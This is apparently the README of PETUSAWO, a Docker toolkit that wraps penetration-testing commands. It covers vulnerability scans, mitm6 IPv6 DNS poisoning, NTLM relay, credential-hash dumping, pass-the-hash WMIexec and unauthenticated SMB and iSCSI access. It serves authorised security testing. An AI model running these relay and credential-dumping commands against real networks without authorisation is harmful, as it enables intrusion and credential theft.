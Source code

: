 # PETUSAWO

The purpose of the project is to make it easier to perform penetration testing by wrapping
up various important commands into bash scripts
  
## Supported Open Source Applications

- OWASP Zap
- NMAP
- Crackmapexec
- mitm6
  
## Getting Started

### Dependencies

- Docker

### Building the image

To build the image execute the following command at the root of the repo:

```bash
docker-compose build
```

### Executing the docker image

### Before getting started

Throughout this repository, we refer to "list_of_ips". To pass a list of IPs to any command,
create a text file in the directory from which the docker command will be run. Ensure that
you list one IP per line in the textfile, for example.

```
198.1.2.220
198.1.3.221
```

The you can pass the file name as command line argument to the tool.
### ZAP

To run zap against a url, run the following command, replacing the url with the target url.
The results will be outputted to whatever directory you specify.

```bash
docker run --rm -v "$(pwd)":/RESULTS berryliumsec/petusawo:latest \
zap_vuln_scan https://yourtarget.com/
```

To run Zap against a list of URLs, place the urls in file named urls.txt in the `PWD` with each url
on a new line (the last line must be terminated with a new line). Run:

```bash
docker run --rm -v "$(pwd)":/RESULTS berryliumsec/petusawo:latest \
zap_vuln_scan your_list.txt
```

### NMAP

Example of running NMAP's vulnerability scan against an IP address:

```bash
docker run --rm -v "$(pwd)":/RESULTS berryliumsec/petusawo:latest \
nmap_vuln_scan 000.00.000.000
```

To run NMAP's vulnerability scan against a list of ip addresses, place
the list in a file named ips.txt in the `PWD` with each IP address on a new line
(the last line must be terminated with a new line).
Run:

```bash
docker run --rm -v "$(pwd)":/RESULTS berryliumsec/petusawo:latest \
nmap_vuln_scan your_list.txt
```

### General WEB Application Scans

All web application scans can be run through an optional proxy server such as burpsuite.
If no proxy is being used, the option can be ignored.

```bash
docker run --rm -v "$(pwd)":/RESULTS berryliumsec/petusawo:latest \
run_web_app_tests target_ip_address_or_list_of_ips optional_proxy_address
```

### Check for IPV6 traffic

```bash
screen -S tshark -d -m docker run -it --rm --network host -v "$(pwd)":/RESULTS berryliumsec/petusawo:latest \
check_for_ipv6_traffic network_interface to listen on
```

You can interact with the above screen with the command:
```
screen -r tshark
```
### Checking for SMB signing not required

```bash
docker run --rm -v "$(pwd)":/RESULTS berryliumsec/petusawo:latest \
check_if_smb_is_required target_ip_address_or_list_of_ips
```

### Exploit SMB signing not required via DNS6 poisoning and NTLM relay.

If Ipv6 is not being actively managed by a DNS and DHCP server and IPv6 packets are flowing then we can likely
compromise this network by setting up a DNS server and DHCP server for IPv6. It is worth noting that according to [RFC3484](https://www.ietf.org/rfc/rfc3484.txt)

IPv6 will be preferred over IPv4 which means that once IPv6 is being managed, nodes on the network will send packets via IPv6 as
opposed to IPV4.

```bash
screen -S mitm6 -d -m  docker run --rm -it --network host -v "$(pwd)":/RESULTS berryliumsec/petusawo:latest \
start_mitm6 local_network_interface target_domain_name
```

You can interact with the above screen with the command:
```
screen -r mitm6
```

```bash
screen -S ipv6_relay -d -m  docker run --rm -it --network host -v "$(pwd)":/RESULTS berryliumsec/petusawo:latest \
start_nltm_relay_ipv6 target_ip_address_or_list_of_ips
```

You can interact with the above screen with the command:

```
screen -r ipv6_relay
```

You can check if SMB sessions have been created successfully by resuming the `relay_ipv6`
screen and running the `socks` command

If SMB sessions have been created, you can perform a number of actions going forward using proxychains:


- Dumping hashes

The domain/account used in the command below can be retrieved by resuming the `relay_ipv6` screen (see above) and
running the `socks` command

    ```bash
    docker run --rm -it --network host -v "$(pwd)":/RESULTS berryliumsec/petusawo:latest dump_creds DOMAIN/Account@x.x.x.x
    ```

- List SMB shares

```bash
    docker run --rm -it --network host -v "$(pwd)":/RESULTS berryliumsec/petusawo:latest list_smb_shares ip_address_of_target DOMAIN\\Account
```

- Accessing SMB shares

```bash
    docker run --rm -it --network host -v "$(pwd)":/RESULTS berryliumsec/petusawo:latest access_smb \\\\ip_address_of_target\\c$ DOMAIN\\Account
```
- Passing hashes for a WMIexec session

```bash

docker run --rm -it --network host -v "$(pwd)":/RESULTS berryliumsec/petusawo:latest pass_hashes_wmi_exec hashes user@x.x.x.x
```


### Exploit SMB signing not required via DNS poisoning and NTLM relay.

```bash

screen -S responder -d -m  docker run --rm -it --network host -v "$(pwd)":/RESULTS berryliumsec/petusawo:latest \
start_responder local_network_interface
```

You can interact with the above screen with the command:
```
screen -r responder
```

```bash
screen -S ipv4_relay -d -m  docker run --rm -it --network host -v "$(pwd)":/RESULTS berryliumsec/petusawo:latest \
start_nltm_relay_ipv4 target_ip_address_or_list_of_ips
```

You can interact with the above screen with the command:

```
screen -r ipv4_relay
```

### Checking for and exploit null SMB Sessions

```bash
docker run -v "$(pwd)":/RESULTS berryliumsec/petusawo:latest \
check_and_exploit_null_smb_sessions target_ip_address_or_list_of_ips
```

### List ISCSI targets

```bash
docker run -v "$(pwd)":/RESULTS berryliumsec/petusawo:latest \
list_iscsi_targets target_ip_address_or_list_of_target_ips
```

### Connect to ISCSI targets without authentication

```bash
docker run -v "$(pwd)":/RESULTS berryliumsec/petusawo:latest \
test_unauthenticated_iscsi_sessions target_ip_address_or_list_of_target_ips iscsi_target
```

### Utilities

Resolve IPs to FQDNS

```bash
docker run -v "$(pwd)":/RESULTS berryliumsec/petusawo:latest \
resolve_fqdn target_ip_address_or_list_of_target_ips 
```
### Output Files

All log files will be placed in the directory from which you run the docker container.
